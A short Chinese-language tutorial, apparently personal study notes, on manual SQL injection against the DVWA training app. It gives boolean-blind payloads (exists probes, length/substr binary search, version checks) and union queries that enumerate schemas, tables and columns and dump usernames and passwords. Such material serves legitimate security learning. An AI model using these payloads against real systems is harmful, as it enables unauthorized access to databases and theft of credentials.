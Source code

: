 ### 破解字段

#### 字典爆破流

`and exists(select * from ?)     //?为猜测的表名`

#### 截取二分流
```sql
and (length((select schema_name from information_schema.schemata limit 1))>?)       //判断数据库名的长度， 特别注意length(()),是两个括号
and (substr((select schema_name from information_schema.schemata limit 1),1,1)>'?')
and (substr((select schema_name from information_schema.schemata limit 1),1,1)<'?')      //利用二分法判断第一个字符
```

判断下一个字段:
```
id=1' and length((select table_name from information_schema.tables where TABLE_SCHEMA = 'dvwa' and TABLE_NAME != 'guestbook' limit 1))>5
```

### 查数据库版本
```
select ord(mid(version(),1,1)) > 51;
```
ASCII 51 -> 3;
大于3的版本, 4或者5 才可以使用`union`
而有的可能使用的并不是mysql，而是`10.1.35-MariaDB`，所以此时的版本开头为`10`

### 查询数据库名
```sql
select 1,database(),3 ;
```

### 查询表名
```sql
select group_concat(table_name) from information_schema.tables where table_schema = 'dvwa';
```
*`group_concat`可以把多行串起来一起显示了*

### 查字段（列）
```sql
select group_concat(column_name) from information_schema.columns where table_name = 'users' and table_schema = 'dvwa';
```

### 查数据
```sql
select group_concat(user_id,'-', first_name,'-', last_name, '-',password) from users;
```
或者

```sql
select user, password from users;
```
